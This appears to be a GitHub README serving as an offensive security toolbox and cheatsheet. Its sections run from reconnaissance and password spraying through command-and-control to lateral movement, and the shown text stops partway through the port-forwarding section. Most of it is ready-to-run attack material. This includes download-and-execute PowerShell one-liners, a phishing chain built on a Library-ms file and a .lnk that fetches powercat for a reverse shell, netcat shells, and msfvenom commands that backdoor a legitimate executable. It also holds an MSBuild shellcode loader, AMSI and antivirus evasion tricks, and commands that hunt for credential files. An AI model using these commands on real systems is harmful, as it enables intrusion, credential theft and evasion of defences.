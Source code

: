 # Toolbox
Offensive Security Toolbox + Cheatsheet

#### Windows Attacker Tooling Setup Script
``` powershell
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/cdnet01/Toolbox/refs/heads/main/setup.ps1'))
```
^ this script is useful for setting up new windows attacker machines

## Recon and Scanning

<details>
<summary> google dorking </summary>

https://www.exploit-db.com/google-hacking-database
</details>

<details>
<summary> anymailfilder.com </summary>

useful for finding company email naming convention. 
</details>

<details>
<summary> gathercontacts </summary>

burpsuite extention that scrapes names from linkedin. requires manually searching for: 

`site:linkedin.com/in "company name"`
</details>

<details>
<summary> dnsrecon </summary>

``` bash
# enumerate dns records for a range, specifying the dns server.
dnsrecon -d domain.tld -n 8.8.8.8
```
</details>

<details>
<summary> knock.py </summary>

``` bash
# brute force subdomains, specifying a dns server
knockpy -d domain.com --bruteforce --dns 8.8.8.8

# conduct "recon" against a domain and save results
knockpy -d domain.com --recon --save foldername
```
</details>

<details>
<summary>dirb, gobuster, dirbuster</summary>

``` bash
gobuster dir -u http://192.168.50.242 -w /usr/share/wordlists/dirb/common.txt -o mailsrv1/gobuster -x txt,pdf,config
```
</details>

<details>
<summary> sublist3r </summary>

``` bash
# brute force subdomains
sublist3r -d domain.com
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# brute force subdomains via host header, filtering out 404 responses.
ffuf -w subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 404
```
</details>

<details>
<summary> masscan </summary>

``` bash
# scan entire /8 range on all ports. set rate to a fast but "safe" limit and output as binary (saves space)
masscan -p 0-65535 --rate 15000 10.0.0.0/8 -oB filename.bin

# convert binary output into a greppable format
masscan --open --readscan filename.bin -oG filename.gnmap

# from here, you can grep for live hosts, open ports, and more.
grep /open/ filename.gnmap | cut -d ' ' -f 2 | sort -uV > livehosts.txt
```
</details>

<details>
<summary> nmap </summary>

``` bash
# without using host discovery, SYN connect scan on range and only output open ports.
sudo nmap -Pn -sT --open 10.140.21.1-255

# good catch all, uses all default scripts, gets the version, and saves the output 
sudo nmap -sC -sV -oN mailsrv1/nmap 192.168.50.242

# full service scan on a /24 range. output in all formats (grep-able, xml, binary)
sudo nmap -sV 10.10.20.0/24 -oA filename

# view all NSE scripts
ls /usr/share/nmap/scripts/*.nse

# run smb discovery
sudo nmap -Pn -p445 --open --script=smb-os-discovery.nse 10.140.13.27

# privide a file containing rfc1918 rangesm, then DNS reverse lookup and output into grep-able file
namp -iL rfc1918.txt -sL --dns-servers 10.10.14.98 -oG
```
</details>

<details>
<summary> eyewitness </summary>

``` bash
# feed an xml list of hosts to be scanned for webpages
EyeWitness.py --web -x filename.xml

# feed a newline separated list of domains 
eyewitness --web -f domains.txt --threads 10
```
</details>

<details>
<summary> smtp enumeration </summary>

``` bash
# connect to a host running smtp
nc -nv 192.168.50.8 25

# ask the smtp server to verify an email address
VRFY root
```
</details>

<details>
<summary> snmp enumeration </summary>

``` bash
# scan for snmp (runs on UDP)
sudo nmap -sU --open -p 161 192.168.50.1-254 -oG open-snmp.txt

# brute force a list of ips
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 192.168.50.$ip; done > ips
onesixtyone -c community -i ips

# check a specific host
snmpwalk -c public -v1 -t 10 192.168.50.151
```
</details>

## Phishing

<details>
<summary> Website Cloning </summary>

We’ll use -E to adjust file extensions to match MIME types, -k to convert links to local copies, and -K to save originals with a .orig extension. With -p, we’ll grab all assets needed to view the page. The -e robots=off option ignores robots.txt. We’ll allow external host downloads with -H, but restrict them to the zoom.us domain via -Dzoom.us. Finally, -nd saves everything in a flat directory in the current working directory.

```bash
wget -E -k -K -p -e robots=off -H -Dzoom.us -nd "https://zoom.us/signin#/login"
```
</details>

<details>
<summary> config.Library-ms </summary>

setup a webdav listener on the attacking machine

```bash 
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

create a file named 'config.Library-ms' with the following contents:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

right click on a windows machine to create a .lnk file, entering the following into the input field and name it 'automatic_configuration'
``` powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

Next, we'll start the Python3 web server on port 8000 to serve powercat.ps1, WsgiDAV for our WebDAV share to serve the the automatic_configuration.lnk and config.Library-ms files, and a Netcat listener on port 4444 to catch the reverse shell.

```bash
# download powercat
wget https://github.com/besimorhino/powercat/raw/refs/heads/master/powercat.ps1

python3 -m http.server
```

copy the automatic_configuration.lnk and config.Library-ms to WebDAV directory. In a normal assessment we would most likely send the library file via email but for this example, we'll use the \\192.168.50.195\share SMB share to simulate the delivery step.

To upload the library file to the SMB share, we'll use smbclient with the -c parameter to specify the put config.Library-ms command. Before we execute smbclient, we need to change our current directory to the library file's directory. We'll also delete the previously created test.txt file from the WebDAV share.

``` bash
cd ~/webdav

smbclient //192.168.50.195/share -c 'put config.Library-ms'
```

if sending payload via an SMTP server

```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```


</details>

## Password Attacks

Be careful with account lockouts, and always check lockout policy with:

```bat
net accounts
```

<details>
<summary> cewl.rb </summary>

Use CeWL to spider a target website and build a unique wordlist to use for cracking
</details>

<details>
<summary> hydra </summary>

``` bash
# trim word list with hydra's pw-inspector. min password length set to 8, at least 3 critera must be met, and set criteria to (l) lowercase, (u) uppercase, (n) numbers, (p) printable chars, (s) special chars.
pw-inspector -i breachdata.txt -o trimmed.txt -m 8 -c 3 -lunps

# password spray SMB on many hosts using username file
hydra -L users.txt -p 'p@ssw0rd' -M windows-hosts.txt smb2

# password spray a domain controller
hydra -L users.txt -p Summer2025! -m workgroup:{name} 10.140.10.2 smb2

# check valid creds against a list of hosts
hydra -m workgroup:{company} -l username -p password -M smbservers.txt smb2

# attack ssh
hydra -L users.txt -P passwords.txt ssh://102.168.1.38
```
</details>

<details>
<summary> ffuf </summary>

``` bash
# find usernames matching on a response containing "username already exists"
ffuf -w users.txt -X POST -d "username=FUZZ&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -mr "username already exists"

# brute force web login creds
ffuf -w users.txt:W1,passwords.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://domain.com/login -fc 200
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate password and user list against a desired service (in this case, smb)
nxe.exe -u "C:\usernames.txt" -p "C:\passwords.txt" -d domain.com --continue-on-success --no-bruteforce 10.20.13.4
```
</details>

<details>
<summary> hashcat </summary>

Effective rulesets can be found in ```/usr/share/hashcat/rules```

``` bash
# use some rules against a password list 
hashcat -r demo2.rule --stdout demo.txt

# crack kerberos TGS-REP hash (output from GetUserSPNs.py) and append 4 digits to the passwords 
hashcat -m 13100 -a 6 hashfile.txt passwordlist.txt ?d?d?d?d
```
hash types can be found at: https://hashcat.net/wiki/doku.php?id=example_hashes

useful hash modes (-m value):

- 1000: NTLM
- 5600: NTLMv2-SSP
- 13100: Kerberos RC4 TGS Ticket (denoted by $krb5tgs$23$)

</details>

<details>
<summary>AD Password Spray</summary>

Conducts password spraying via LDAP

``` bat
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```
</details>

<details>
<summary>crackmapexec</summary>

Authenticates via SMB and notifies you if a valid user is a local admin by adding (Pwn3d!) to the output

``` bash
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

# using pass the hash 
crackmapexec smb 192.168.50.75 -u paul -H '08d7a47a6f9f66b97b1bae4178747494' -d corp.com --continue-on-success

# list shares
crackmapexec smb 192.168.50.242 -u john -p "dqojcoe#nL" --shares
```
</details>

<details>
<summary>kerbrute</summary>

Conducts password spraying against kerberos, only uses 2 UDP packets to identify a valid pw

``` bat
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
</details>


## Initial Access
Ports of interest

- 22 - SSH
- 135 - WMI (RPC) and DCOM
- 139, 445 - SMB
- 3389 - RDP
- 5985, 5986 - WinRM

<details>
<summary>native WMI interaction</summary>

``` bat
rem using wmic (now depricated)
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

``` powershell
# using powershell
$username = 'jen';

$password = 'Nexus123!';

$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;

$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$options = New-CimSessionOption -Protocol DCOM

$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 

$command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA...'; # base64 encoded powershell reverse shell

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

</details>

<details>
<summary>native WinRM interaction</summary>

``` bat
rem For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

``` powershell
# using powershell
$username = 'jen';

$password = 'Nexus123!';

$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;

$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

New-PSSession -ComputerName 192.168.50.73 -Credential $credential

Enter-PSSession 1

whoami
```
</details>

<details>
<summary>psexec</summary>

in order to use psexec, the user that authenticates to the target machine needs to be part of the Administrators local group. Second, the ADMIN$ share must be available, and third, File and Printer Sharing has to be turned on. the last two are default on modern Windows Server systems.

``` bat
.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

</details>

<details>
<summary> impacket </summary>

```bash 
# connect to mssql server and specify the domain controller ip
mssqlclient.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# connect to smb server
smbclient.py domain.com/username:password@10.13.12.3

# using pass the hash
impacket-smbclient corp.com/dave@192.168.64.72 -hashes ':08d7a47a6f9f66b97b1bae4178747494'

# execute code using the psexec service 
psexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using the smb service
smbexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# execute code using wmic
wmiexec.py domain.com/username:password@10.13.12.3 -dc-ip 10.10.192.10

# setup an smb listenter, and run a command on a target using captured hash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
</details>

<details>
<summary> netexec </summary>

``` powershell
# use netexec to enumerate rids
nxe.exe smb 10.140.13.3 -u username -p 'password' --rid-brute

# list shares
netexec smb 10.140.13.3 -u username -p 'password' --shares
```
</details>

<details>
<summary> runas </summary>

``` powershell
# (run this as administrator) launch a cmd shell that will execute all network communication with the injected credentials for authentication.
runas.exe /netonly /user:domain.com\username cmd.exe
```
</details>

<details>
<summary> evilwinrm </summary>

``` bash 
evil-winrm -i 10.13.10.3 -u "username" -p "password"
```

</details>


<details>
<summary> xfreerdp </summary>

``` bash
# rdp into a server ignoring any self signed certs
xfreerdp /u:username /p:password /v:10.230.21.12 /cert:ignore /dynamic-resolution

# using pass the hash 
xfreerdp /u:username /pth:hash_goes_here /v:10.230.21.12 /d:corp.com /dynamic-resolution

```
</details>

<details>
<summary> netcat </summary>

``` bash
# open listener for reverse shell on attacker machine
nc -lvp 4444

# shovel the shell from the target to the attacker
nc 192.168.1.31 4444 -e /bin/bash
```
</details>

## Payloads
common payload types: 

1. office macros
2. office auto DDE (default on excel and outlook)
3. Library files 
3. ISO images 
4. zip files (often encrypted)
5. lnk files with rundll32

<details>
<summary> msfvenom </summary>

``` bash 
# view payload formats
msfvenom --list formats

# generate malicious installer file
msfvenom -p windows/meterpreter/reverse_http lhost=ATTACKER_IP lport=8976 -f msi -o setup.msi

# backdoor a legit exe. The binary will still work as usual but execute an additional payload silently.
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=10.209.28.34 lport=4444 -b "\x00" -f exe -o puttyX.exe
```
</details>

<details>
<summary> genisoimage </summary>

``` bash
# place payload inside of an iso container
genisoimage -o installer.iso setup.msi
```
</details>

## Command & Control
<details>
<summary> metasploit </summary>

``` bash
# setup multi handler
use exploit/multi/handler

# set payload 
set PAYLOAD windows/meterpreter/reverse_http

# view config
show options

# allow listener to receive multiple connections without having to restart it
set ExitOnSession false

# meterpreter commands
sysinfo
getuid
ps
# migrate to a new process
migrate -N explorer.exe
# start keylogger
keyscan_start
keyscan_dump
# file control
upload local_filename
download remote_filename
edit remote_filename
```
</details>

<details>
<summary> sliver </summary>

``` bash
# setup an https listener
https 

# generate an exe payload to only run for a specified username
generate --os windows --name filename --limit-username user1 --http LISTENING_ADDR

# generate a dll payload (run dll payload on victim with: regsvr32 filename.dll)
generate --os windows --arch 64bit --format shared --http https://ATTACKER_IP

# view payload 
impants

# view sessions
sessions

# use a session (use first few letters of session id)
use 1b
```
</details>

## Evasion

<details>
<summary> shellter </summary>

Shellter is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software.

``` bash
apt-cache search shellter
sudo apt install shellter
sudo apt install wine
sudo dpkg --add-architecture i386 && apt-get update && apt-get install wine32

# If we are using an ARM processor, we need to a slightly different set of commands.
sudo apt install wine
sudo dpkg --add-architecture amd64
sudo  apt install -y qemu-user-static binfmt-support
sudo apt-get update && apt-get install wine32
```
</details>

<details>
<summary> veil </summary>

``` bash
# use veil to produce payloads, configurable with metasploit
veil 
use evasion 
use powershell/meterpreter/rev_tcp
set lhost 192.168.1.1
set lport 443
generate
```
</details>

<details>
<summary> Powershell Memory Injection </summary>

A basic templated script that performs in-memory injection is shown in the listing below. The script starts by importing VirtualAlloc and CreateThread from kernel32.dll as well as memset from msvcrt.dll. These functions will allow us to allocate memory, create an execution thread, and write arbitrary data to the allocated memory, respectively. We will allocate the memory and execute a new thread in the current process (powershell.exe), rather than a remote one.

``` powershell
# run this within the x86 version of powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

<place shellcode here>

```
Generate powershell reflection shellcode 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection
```

</details>

<details>
<summary> msbuild.exe </summary>

``` powershell
# if msbuild is enabled, it can be used to execute arbitrary shellcode. first, lets find msbuild
ls C:\Windows msbuild.exe -Recurse 2>$null | % FullName

# if found, chose either a 32 bit or 64 bit version. whatever version is chosen, shellcode needs to match. Once you have created your xml build.xml file, you can run it
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\build.xml
```
generate shellcode
``` bash
# generate an msfvenom payload in csharp. this will output a byte format compatible with c#
msfvenom -p windows/meterpreter/reverse_tcp lhost=eth0 lport=9871 -f csharp | tee /tmp/payload.txt

# add the output of msfvenom to the below build.xml file where it says "// PUT SHELLCODE HERE"

# setup your listener 
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 9871
```

build.xml (without placing code on disk)
``` xml
<Code Type="Class" Language="cs" Source="\\19.21.28.12\webdav\calc.cs">
```

build.xml withshellcode
``` xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
 
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            // PUT SHELLCODE HERE
 
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, (IntPtr)(funcAddr), buf.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;
            IntPtr pinfo = IntPtr.Zero;
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
</details>

<details>
<summary> AMSI Bypassing </summary>

``` powershell
# AMSI (antimalware scan interface) was addedd in powershell version 3, previous version wont have it. For example, the following command (run from cmd) wont trigger AMSI
powershell -version 2 -command " 'amsiutils' " 

# String modification will also work to bypass amsi. For example, the following powershell command wont trigger signatures
"Invoke"+"-Mimikatz"
```
</details>

<details>
<summary> Comment Stripping </summary>

``` powershell
# by removing comments, some AV/EDR may fail to signature certain things
PowerStripper.exe bad_script.ps1
```
</details>

<details>
<summary> Testing Windows Defender </summary>

``` powershell
# making modifications to a payload until it no longer triggers windows defender is another option. This tool will show the exact byte that triggered defender 
DefenderCheck.exe payload.exe
```
</details>

<details>
<summary> chameleon </summary>

``` powershell
https://github.com/klezVirus/chameleon
```
</details>


## Situational Awareness

There are several key pieces of information we should always obtain:

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes


<details>
<summary> linux </summary>

``` bash
cat /etc/passwd
sudo -l
# recursively search for a case insensitive filename from root directory
find / -type f -iname *.db
# recuresiveley search files for secrets from root directory
grep -Inri -e passw -e secret -e key / 2>/dev/null
# find SUID files
find / -perm -4000 -ls 2>/dev/null
# view all available disks
lsblk
# find writable directories 
find / -writable -type d 2>/dev/null
# find writable config files
find /etc -perm 2
# find readable bash histories 
find /home -name .bash_history -perm 4 2>/dev/null
# find writable authorized hosts files
find /home -name authorized_hosts -perm 2 2>dev/null
# scan a network range using netcat
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```
</details>

<details>
<summary> windows </summary>

``` bat
rem misc commands for situational awareness
systeminfo
ipconfig /all
route print 
netstat -ano
Get-Process

rem see powershell history
Get-History

rem find the logged powershell history from PSReadline
(Get-PSReadlineOption).HistorySavePath

rem see what groups your user is a member of. Builtin grpuops of note are Backup Operators (can create backup of all files on system), Remote Desktop Users (can RDP to the machine), and Remote Management Users (can access system with WinRM)
whoami /groups

rem check for SeImpersonatePrivilege enabled for priv esc
whoami /priv

rem show DNS details
ipconfig /displaydns

rem show all user accounts (local or domain)
net user
Get-LocalUser
net1.exe user
net user /domain

rem show information about a specific user (local or domain)
net user [username]
net user [username] /domain

rem chnage a domain user's password
net user /domain username newpassword

rem list all groups (local or domain)
net localgroup
Get-LocalGroup
net group /domain

rem show membership of a specific group (local or domain)
net localgroup "groupname"
Get-LocalGroupMember "groupname"
net group "groupname" /domain
net group "Domain Admins" /domain

rem show password policy (local or domain)
net accounts
net accounts /domain

rem add a user
net user [username] password /add

rem add user to local admins
net localgroup administrators [username] /add

rem show accounts with a bad password login count > 0
Get-ADObject -Filter 'badPwdCount -gt 0' -Server domain.com

rem check for windows credential guard
Get-ComputerInfo

rem show firewall settings
netsh firewall show state
netsh firewall show config
netsh advfirewall show allprofiles state

rem show all installed appilcations (32 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show all installed appilcations (64 bit)
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

rem show scheduled tasks
schtasks /query /fo LIST /v

rem show patch level 
wmic qfe get Caption,Description,HotFixID,InstalledOn

rem find file recursively
dir /s *name*

rem find secrets recursiveley
dir /s *pass* == *cred* == *vnc* == *.config*

rem look for user files containing potentially sensitive information
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

rem query for SPNs
setspn.exe -T * -Q */*

rem use sysinternals adexplorer to fetch active directory information
ADExplorer.exe 

rem look for keepass database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

### Microsoft Management Console

This native windows tool can be used in order to enumerate active directory. In order to install the software:
1. Press Start
2. Search "Apps & Features" and press enter
3. Click Manage Optional Features
4. Click Add a feature
5. Search for "RSAT"
6. Select "RSAT: Active Directory Domain Services and Lightweight Directory Tools" and click Install

You can start MMC by using the Windows Start button, searching run, and typing in MMC

(if running with runas on the attacker machine, you will need to configure the forrests. if running on a domain joined machine, some of this can be skipped.)

In MMC, we can now attach the AD RSAT Snap-In:

1. Click File -> Add/Remove Snap-in
2. Select and Add all three Active Directory Snap-ins
3. Click through any errors and warnings
4. Right-click on Active Directory Domains and Trusts and select Change Forest
5. Enter domain.com as the Root domain and Click OK
6. Right-click on Active Directory Sites and Services and select Change Forest
7. Enter domain.com as the Root domain and Click OK
8. Right-click on Active Directory Users and Computers and select Change Domain
9. Enter domain.com as the Domain and Click OK
10. Right-click on Active Directory Users and Computers in the left-hand pane
11. Click on View -> Advanced Features

If we had the relevant permissions, we could also use MMC to directly make changes to AD, such as changing the user's password or adding an account to a specific group.
</details>

<details>
<summary>active directory enumeration</summary>

```powershell
# using powerview
Import-Module PowerView.ps1
Get-NetDomain
Get-NetUser username
Get-NetGroup groupname
Get-NetComputer | select operatingsystem,dnshostname
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
# spray the environment to find possible local administrative access on computers under the current user context
Find-LocalAdminAccess
# get SPNs
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Find-DomainShare
Find-DomainShare -CheckShareAccess
```

</details>

<details>
<summary> impacket </summary>

``` bash
# extract list of all users
GetADUsers.py domain.com/username:password -dc-ip 10.140.10.2 -all

# enumerate user SPNs on a remote machine
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59
```
</details>

<details>
<summary> seatbelt.exe </summary>

``` powershell 
# get info on AV
seatbelt.exe AntiVirus

# get info on installations
seatbelt.exe InstalledProducts

# get system info
seatbelt.exe -q -group=system

# show commands that can be run against remote computers
seatbelt.exe -q | findstr +

# launch a module against a remote computer
seatbelt.exe UAC 'computername=10.140.12.13' -username=company\user -password=password
```
</details>

<details>
<summary> bloodhound </summary>

``` bash
#setup the service 
sudo neo4j start
bloodhiound

# using python tooling, remotely retreive AD information for loading into bloodhound
bloodhound-python -d domain.com -u username -p password -c ALL -ns 10.10.192.2

# using c# tooling (ps1 tooling also available), retreive AD infomation for loading into bloodhound and do not touch domian controllers (better for evasion)
Sharphound.exe --CollectionMethods All --Domain domain.com --ExcludeDCs
```

some cipher queries for bloodhound:

1. query to display all computers identified:
`MATCH (m:Computer) RETURN m`

1. query to display all users identified:
`MATCH (m:User) RETURN m`
</details>

## Lateral Movement
<details>
<summary>port forwarding</summary>

```bash
# on a compromised machine, listen on port 2345 and forward all traffic to port 5432 of 10.4.50.215
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432

# listen on port 2222 on a compromised machine, forward all traffic to 10.4.50.215 on port 22
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

# on attacking machine, you can effectively ssh to 10.4.50.215 via the compromised machine using the following command
ssh user@VICTIM_IP -p 2222
```
</details>

<details>
<summary>chisel</summary>

chisel works by creating a proxy over http/https, assisting with C2 through deep packet inspection.

```bash
# begin by copying the chisel binary to the victim machine
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel

# on attacking machine, start the chisel server with the --reverse flag to allow the reverse port forward.
chisel server --port 8080 --reverse

# initiate the proxy on the victim machine
chisel client 192.168.118.4:8080 R:socks


```
</details>


<details>
<summary>ssh tunneling</summary>

1. Local Port Forwarding

![alt text](resources/image03.png)

```bash 
# on a compromised host (with internal network access to 10.4.50.215), forward all traffic on port 4455 through 10.4.50.215 and to 172.16.50.217 on port 445
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

# on the attacking machine, connect to 172.16.50.215 SMB share as if it were the compromised host
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
```

2. Dynamic Port Forwarding

![alt text](resources/image02.png)

``` bash
# on a compromised host (with internal network access to 10.4.50.215), forward all traffic on port 9999 through 10.4.50.215 to any host on any port 
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215

# on the attacking machine, configure proxychains to send traffic via the compromised host, and scan a machine that is only accessible via 10.4.50.215
tail /etc/proxychains4.conf

# add to the proxy list the following line
socks5 192.168.50.63 9999

# using proxy chains, scan a host on all ports 
sudo proxychains nmap -vvv -sT -p- -Pn 172.16.50.217
```

3. Remote Port Forwarding 

![alt text](resources/image01.png)

``` bash
# on the attacking machine, ensure you are running ssh server
sudo systemctl start ssh

# on a compromised host that has limited inbound connections, initialize a tunnel to the attacking machine that forwards traffic to 10.4.50.215 on port 5432
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4

# confirm the attacking machine is now listening on port 2345 
ss -ntplu

# on attacking machine, connect to 10.4.50.215 port 5432 via localhost port 2345 
psql -h 127.0.0.1 -p 2345 -U postgres
```

4. Remote Dynamic Port Forwarding

![alt text](resources/image.png)

```bash
# on the compromised host, establish an outbound connection to the attacking host
ssh -N -R 9998 kali@192.168.118.4

# reconfigure proxychains 
tail /etc/proxychains4.conf

# add to the proxy list the following line 
socks5 127.0.0.1 9998

# scan a host that is only accessible via the compromised machine
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```

5. Using netsh 

``` bat
rem create a port forward on port 2222 of a compromised host, and forward it to port 22 on 10.4.50.215 
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

rem no output from the above command, confirm it was created
netsh interface portproxy show all

